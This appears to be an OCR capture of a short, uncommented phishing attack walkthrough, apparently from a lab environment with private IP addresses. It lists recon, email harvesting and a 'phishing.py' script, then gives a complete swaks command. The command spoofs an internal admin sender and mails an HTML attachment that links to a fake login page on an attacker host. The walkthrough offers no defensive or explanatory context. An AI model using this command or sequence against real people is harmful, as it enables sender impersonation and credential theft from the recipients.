  
 Step 0: Network recon
 
 
 Step 1: Harvest emails
 
 
 Step 2:
Python3 phishing.py
 
 
 Step 3:

swaks \
  --to maria@knight.com \
  --from admin@knight.com \
  --server 10.10.0.146 \
  --header "Subject: Important Document" \
  --body "Dear user,\n\nPlease find attached the document you requested.\n\nBest regards,\nSupport Team" \
  --attach-type text/html \
  --attach-name "Document.html" \
  --attach-body "<html><body> http://10.10.0.118:5000/login </body></html>" \ 
  --port 587

